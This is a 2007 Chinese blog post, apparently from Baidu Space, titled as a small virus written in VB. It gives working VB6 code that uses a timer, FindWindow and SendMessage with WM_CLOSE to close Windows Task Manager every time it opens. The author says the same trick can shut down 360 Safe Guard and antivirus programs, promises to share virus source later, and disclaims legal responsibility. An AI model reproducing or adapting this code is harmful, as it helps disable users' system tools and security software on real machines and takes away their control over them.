 # VB编写的小病毒 

> 2007-11-26

<div class="pcs-article-content_ptkaiapt4bxy_baiduscarticle" id="detailArticleContent_ptkaiapt4bxy_baiduscarticle">
 <p>
  今日，从网上看见如何用VB编个屏蔽 CTRL+ALT+DEL的例子，感觉不是很好。
 </p>
 <p>
  所以，自己根据API构思了一下，做了个病毒，这个是如果你调出 任务管理器，就会自动关闭，比屏蔽CTRL+ALT+DEL 强多了。
 </p>
 <p>
  '首先是声明API
 </p>
 <p>
  Private Declare Function SendMessage&amp; Lib "user32" Alias "SendMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any)
  <br/>
  Private Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long
  <br/>
  '定义一下常数
  <br/>
  Private Const WM_CLOSE = &amp;H10
  <br/>
  <br/>
  '放个Timer控件,Interval设置200左右
  <br/>
  'Timer控件的Timer事件里写
  <br/>
  Dim Hw As Long
  <br/>
  '关键！找任务管理器
 </p>
 <p>
  Hw = FindWindow(vbNullString , "Windows 任务管理器")
  <br/>
  If Hw &lt;&gt; 0 Then
  <br/>
  SendMessage Hw&amp;, WM_CLOSE, 0&amp;, 0&amp;
  <br/>
  End If
 </p>
 <p>
  <strong>
   OK，试验成功！XP SP2+VB6
  </strong>
 </p>
 <p>
  哈哈，这就编好了，可以像一些病毒一样，打开一个程序就关闭了，这个方法也可以用来关闭 360安全卫士，杀毒软件等等的。
 </p>
 <p>
  改天编个病毒的源代码发上来共享，本人概不负责任何法律责任。
 </p>
 <p>
  自己录的录像：
 </p>
 <p>
  <em>
   http://HI.E-CSS.CN/yfboke/bd.swf height=800 width=1024
  </em>
 </p>
</div>


